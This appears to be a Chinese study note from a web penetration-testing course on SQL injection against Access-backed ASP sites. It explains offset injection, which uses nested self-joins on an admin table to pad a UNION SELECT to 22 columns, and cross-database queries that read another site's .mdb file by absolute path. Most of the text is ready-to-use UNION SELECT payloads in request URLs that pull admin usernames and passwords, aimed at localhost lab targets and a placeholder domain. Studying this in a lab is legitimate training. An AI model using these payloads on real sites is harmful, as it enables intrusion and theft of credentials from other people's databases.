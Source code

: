 ~~~sql
需要在select语句中补充4个字段。
语句：union select 1,2,3,4,* from (admin as a inner join (admin as b inner join admin as c on b.id = c.id) on a.id = b.id)

**************************************************************************
可能课程中的语句不怎么同，所以代表的几级偏移也不同 
一级：union select 1,2,3,4,5,6,7,8,9,10,a.id,b.id,* from (admin as a inner join admin as b on a.id=b.id)

二级：union select 1,2,3,4,a.id,b.id,c.id,* from ((admin as a inner join admin as b on a.id=b.id) inner join admin as c on a.id=c.id)

两种语句都可以实现偏移注入的目的，只是在字段补充和内连接的层次上有所不同。两种方法都可以使总字段数达到22个，从而在已知的显示位上暴露目标字段值。
**************************************************************************

~~~

跨库查询：

~~~perl
条件:同服务器下的站点有注入,知道对方站的数据库绝对路径，知道对方数据库表，表中的字段名可以用这个方法来跨库查询. 绝对路径：D:/wwwroot/…*.mdb .asa .asp）

例如：
a是目标站点 b是存在注入的站点 a,b是同服务器的站点
admin为数据库中的表
user为数据库中admin表的段
password为数据库中admin表的段.

http://xxx.com/news/type.asp?type?id=1 and 1=2 union select 1,2,user,4,5,6 from [D:\wwwroot\1\Databases\xycms.mdb].admin

http://127.0.0.1:81/0/Production/PRODUCT_DETAIL.asp?id=1451 union select 1,2,username,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from [D:\wwwroot\1\Databases\xycms.mdb].admin

http://127.0.0.1:99/0/Production/PRODUCT_DETAIL.asp id=-1513%20UNION%20SELECT%201,2,admin,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22%20from%20admin_user%20in%20’C:\Users\Seven\Desktop\webpentest\1\xydata\xycms.mdb’

~~~



靶场测试：![image-20250112164309173](.\SQL注入原理.assets\image-20250112164309173.png)

![image-20250112164317988](.\SQL注入原理.assets\image-20250112164317988.png)
